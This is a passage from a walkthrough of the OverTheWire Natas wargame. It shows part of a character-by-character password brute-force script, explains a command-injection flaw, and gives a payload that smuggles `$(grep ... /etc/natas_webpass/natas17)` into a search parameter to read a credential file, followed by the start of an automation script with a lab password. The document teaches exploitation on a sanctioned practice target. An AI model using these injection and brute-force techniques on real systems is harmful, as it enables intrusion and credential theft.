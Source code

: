 ```
                timeout=10
            )
            if 'user exists' in response.text:
                seen_password.append(ch)
                print(f"[+] Found so far: {''.join(seen_password)}")
                break
        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")
            time.sleep(1)
            continue

        time.sleep(0.1)

    if len(seen_password) == 32:
        print(f"[✓] Password found: {''.join(seen_password)}")
        break
```

This will build the password one character at a time until complete.

### Natas Level 16 → Level 17  
**Key Takeaways**: This level demonstrates command injection vulnerabilities. It highlights how unsanitized user input passed into system commands can allow attackers to execute unintended commands, potentially leaking sensitive information.

**Procedure**

1. Log in using the username `natas16` and the password obtained from Level 15.

2. The page provides a search form with a `needle` parameter. This parameter is passed to a system command (e.g., `grep`) on the server.

3. Observing the source code, we can see that the `needle` is not properly sanitized, allowing for command injection.

4. Inject a payload to check if the password for Natas17 starts with a particular character. For example:
    
    		anythings$(grep ^h /etc/natas_webpass/natas17)
    
    If `grep` finds a match, the `anythings` string will not appear in the output.

5. Automate this check by writing a script that:
    - Iterates over all possible characters (`a-z`, `A-Z`, `0-9`).
    - Sends a request with the injected `grep` command checking for the current prefix.
    - Appends the character to the known password if the match is successful.
    - Repeats until all 32 characters are discovered.

6. Sample script (Credits: John Hammond): https://github.com/JohnHammond/overthewire_natas_solutions/blob/master/natas16.py

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import time
from string import ascii_lowercase, ascii_uppercase, digits

characters = ascii_lowercase + ascii_uppercase + digits

username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

url = f'http://{username}.natas.labs.overthewire.org/'

session = requests.Session()

```